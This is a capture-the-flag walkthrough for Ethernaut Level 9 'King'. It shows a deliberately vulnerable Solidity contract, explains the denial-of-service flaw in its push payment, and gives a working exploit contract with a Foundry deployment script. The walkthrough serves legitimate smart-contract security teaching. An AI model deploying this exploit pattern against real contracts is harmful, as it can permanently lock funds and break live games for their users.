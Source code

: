 # Level 9 - King ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/9" %}

### Level Setup

{% hint style="info" %}
The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/King.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```
{% endcode %}

### Exploit

The old king is sent back `msg.value` before the new king is set. So if the old king is a contract that doesn't implement a `receive` or `fallback` function then the call will fail and a new king can't be set, breaking the game.

1. Create an exploit contract that doesn't contain a `receive` or `fallback` function.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-9

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-9

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level9.sol" %}

{% code title="src/Level9.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IKing {
    function prize() external view returns (uint256);
}

// ================================================================
// │                         LEVEL 9 - KING                       │
// ================================================================
contract ClaimKing {
    constructor(address _targetContractAddress) payable {
        IKing king = IKing(_targetContractAddress);
        uint256 attackValue = king.prize() + 1 wei;
        if (attackValue > address(this).balance) revert("Not enough funds");

        // Attack contract
        (bool success,) = _targetContractAddress.call{value: attackValue}("");
        if (!success) revert("Call failed");

        // Refund remaining balance
        (bool refundSuccess,) = address(msg.sender).call{value: address(this).balance}("");
        if (!refundSuccess) revert("Refund call failed");
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level9.s.sol" %}

{% code title="script/Level9.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {ClaimKing} from "../src/Level9.sol";

// ================================================================
// │                         LEVEL 9 - KING                       │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        new ClaimKing{value: 1 ether}(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).
{% endhint %}

### Notes

* Executing everything in the constructor removes points of failure e.g. if the prize was calculated before sending, then the transaction was pending for a few blocks, it would no longer be the correct value. So it's better to calculate as much as possible on chain, even if it costs more gas that off-chain calculations, as it's more important that it actually goes through (and the check can be right at the start to minimize wasted gas if it does revert)
